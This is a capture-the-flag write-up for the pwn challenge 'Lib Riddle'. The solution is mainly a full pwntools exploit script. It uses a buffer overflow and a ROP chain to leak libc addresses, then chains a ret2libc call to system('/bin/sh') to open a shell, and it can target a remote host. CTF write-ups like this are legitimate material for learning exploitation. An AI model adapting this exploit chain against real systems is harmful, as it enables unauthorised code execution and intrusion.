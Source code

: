 # Lib Riddle 
Solved by **CapangJabba**

## Question
Welcome to Lib-Riddle, where the library holds a secret deep inside its stacks. In this hilarious and intriguing challenge, you'll sift through piles of books and quirky clues to uncover the hidden mystery. Can you crack the code and reveal the library's best-kept secret? Dive in and let the quest for knowledge begin!

## Solution
Exploit buffer overflow, overwrite return address to leak libc addresses. find the libc version at https://libc.rip/ . execute `ret2libc`

```
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./challenge_patched", )
elf = context.binary = ELF("./challenge_patched", checksec=False)
context.log_level = 'info'

libc = ELF('./libc6_2.31-0ubuntu9.14_amd64.so')
ret = 0x000000000040101a
pop_rdi = p64(0x0000000000401273)
plt_puts = p64(elf.plt['puts'])
got_read = p64(elf.got['read'])
got_puts = p64(elf.got['puts'])
offset = 24

'''
pwndbg> tele rsp 30
00:0000│ rsi rsp 0x7fffffffdcb0 ◂— 'AAAABBBBCCCCDDDD\n'
01:0008│-008     0x7fffffffdcb8 ◂— 'CCCCDDDD\n'
02:0010│ rbp     0x7fffffffdcc0 ◂— 0xa /* '\n' */
03:0018│+008     0x7fffffffdcc8 —▸ 0x7ffff7decc8a (__libc_start_call_main+122) ◂— mov edi, eax
04:0020│+010     0x7fffffffdcd0 —▸ 0x7fffffffddc0 —▸ 0x7fffffffddc8 ◂— 0x38 /* '8' */
'''

io.recvuntil(b'name?\n')
payload = b'A'*24
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_read + plt_puts
payload += p64(elf.sym['main'])
io.sendline(payload)
io.recvline()
io.recvline()
leak1 = unpack(io.recv(6).ljust(8,b'\x00'))
io.recvline()
leak2 = unpack(io.recv(6).ljust(8,b'\x00'))

# libc.address = leak - 0x27c8a
print(f"leak1: {hex(leak1)}")
print(f"leak2: {hex(leak2)}")

# print(f"libc.address: {hex(libc.address)}")


libc.address = leak1 - libc.sym['puts']
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*24
payload += p64(ret)
payload += p64(ret)
payload += rop.chain()

io.sendline(payload)

io.interactive()
```

### Flag
`OSCTF{XXX}`

